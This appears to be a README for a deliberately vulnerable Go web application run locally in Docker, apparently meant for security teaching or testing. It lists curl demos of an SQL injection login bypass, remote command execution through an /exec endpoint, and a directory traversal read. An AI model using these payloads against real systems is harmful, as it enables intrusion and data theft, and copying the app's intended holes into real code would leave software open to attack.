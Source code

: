 Start environment:
1. start containers:
cd <tarpit_go>
docker-compose up

2. DB Init:
Visit:
http://localhost:3000/init
or
curl -X GET http://localhost:3000/dbinit

3. visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)

4. tear down the environment:
control + C
docker-compose down

/***
* console version
**/

Sql injection demo: 
//password='12346" OR ""="'
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login

Remote code execution:
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec

Directory traversal demo: (login first)
curl -X GET http://localhost:3000/image/../demo/demo.go